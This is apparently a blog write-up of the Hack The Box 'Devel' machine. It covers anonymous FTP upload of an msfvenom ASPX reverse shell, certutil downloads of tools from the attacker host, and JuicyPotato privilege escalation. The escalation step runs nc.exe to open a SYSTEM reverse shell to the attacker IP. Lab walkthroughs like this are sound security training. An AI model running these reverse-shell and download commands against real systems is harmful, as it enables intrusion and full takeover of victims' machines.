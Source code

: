 ```yaml
---
layout: post
title: Hack The Box - Devel Writeup
date: 2024-06-07 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```



![develBadge.png](/assets/img/Devel/develBadge.png)

## Summary

Using anonymous login to ftp server I was able to access web root of `IIS`. It is possible to upload reverse shell via ftp and trigger it by accessing it on port 80. Enumerating system as web `user` reveals that this user has `SeImpersonatePrivilege` enabled. To exploit this I used `JuicyPotato` in conjunction with the `nc.exe` to get reverse shell with `system` privileges. 

___
## Reconnaissance

### Nmap

```
nmap -sV -sC -oN ./nmap.txt 10.10.10.5
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 21, 80 |

#### Port 21

##### Anonymous Login

```
ftp anonymous@10.10.10.5
```

![ftpAnonym.png](/assets/img/Devel/ftpAnonym.png)

After logging in anonymously it looks like we have access to `IIS` web root. 

#### Port 80

##### Technology

![technology.png](/assets/img/Devel/technology.png)

##### Website

![port80.png](/assets/img/Devel/port80.png)


___
## Initial Foothold

### Uploading reverse shell via FTP

If we are able to upload reverse shell via ftp to web root then we can access it on port 80 which will trigger it.

First I created malicious file using `msfvenom`. We know that website is using `Microsoft ASP.NET` framework so I used `.aspx` shell.

```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.14.38 LPORT=7003 -e x86/shikata_ga_nai -o shell.aspx
```

Next I uploaded `shell.aspx` to web root of server. 

![ftpUploadShell.png](/assets/img/Devel/ftpUploadShell.png)

To trigger reverse shell I accessed uploaded shell on port 80. 

![shellAccess.png](/assets/img/Devel/shellAccess.png)

![reverseSHell.png](/assets/img/Devel/reverseSHell.png)
_____
## Privilege Escalation

### System Enumeration

Checking privileges for current user, we can see that `SeImpersonatePrivilege` is enabled. There are multiple ways to exploit this so first check type of system which is this machine based on. 

```
whoami /priv
```

![whoamiPriv.png](/assets/img/Devel/whoamiPriv.png)

```
systeminfo
```

![systeminfo.png](/assets/img/Devel/systeminfo.png)

We can see that machine is `x86` based so we need to use exploit compatible with this architecture.
### Abusing SeImpersonatePrivilege - Juicy Potato

For privilege escalation I used [`JuicyPotato`](https://github.com/ivanitlearning/Juicy-Potato-x86) in conjunction with the [`nc.exe`](https://github.com/int0x33/nc.exe/) to get reverse shell with `system` privileges.

First I downloaded files from my local machine using `certutil`.

Creating web server on my local machine:
```
python3 -m http.server 7004
```

Downloading files to victim machine:
```
certutil -urlcache -split -f "http://10.10.14.38:7004/Juicy.Potato.x86.exe" Juicy.Potato.x86.exe
```

```
certutil -urlcache -split -f "http://10.10.14.38:7004/nc.exe" nc.exe
```

![juicyDownload.png](/assets/img/Devel/juicyDownload.png)

When all needed files are present on the system we can get reverse shell using this command:
```
.\Juicy.Potato.x86.exe -l 7007 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.38 7005" -t * 
```

![[Hack The Box/Boxes/Easy/Devel/Screenshots/escalation.png]]

![systemShell.png](/assets/img/Devel/systemShell.png)

___
## Post Exploitation

### User.txt

![systemShell.png](/assets/img/Devel/userFlag.png)

### Root.txt

![rootFlag.png](/assets/img/Devel/rootFlag.png)
